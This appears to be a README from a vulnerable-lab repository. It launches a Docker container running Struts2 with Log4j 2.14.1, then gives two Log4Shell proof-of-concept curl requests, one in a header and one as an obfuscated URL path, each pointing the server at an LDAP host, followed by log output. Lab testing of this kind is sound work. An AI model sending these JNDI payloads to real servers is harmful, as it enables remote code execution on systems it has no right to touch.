 # Apache Struts2 log4j RCE

## 一键拉起showcase环境

```
docker pull vultarget/log4j2-struts2-showcase:2.14.1

docker run --name struts2-showcase -d -p 8360:8080 vultarget/log4j2-struts2-showcase:2.14.1
```

## Poc1

```
curl -vv -H "If-Modified-Since: \${jndi:ldap://localhost:80/abc}" http://localhost:8080/struts2-showcase/struts/utils.js
```

Logs

```
2021-12-11 17:58:45,991 WARN  [http-nio-8080-exec-2] dispatcher.DefaultStaticContentLoader (DefaultStaticContentLoader.java:241) - Invalid If-Modified-Since header value: '${jndi:ldap://localhost:80/abc}', ignoring
```

I've tested it

![](1.png)

## Poc2

```
curl -vv http://localhost:8080/struts2-showcase/$%7Bjndi:ldap:$%7B::-/%7D/10.0.0.6:1270/abc%7D/
```

Logs

```
2021-12-13 10:26:47,908 WARN  [http-nio-8080-exec-7] mapper.DefaultActionMapper (DefaultActionMapper.java:419) - /${jndi:ldap:${::-/}/10.0.0.6:1270/abc} did not match allowed namespace names [a-zA-Z0-9._/\-]* - default namespace / will be used!
```

I've tested it

![](2.png)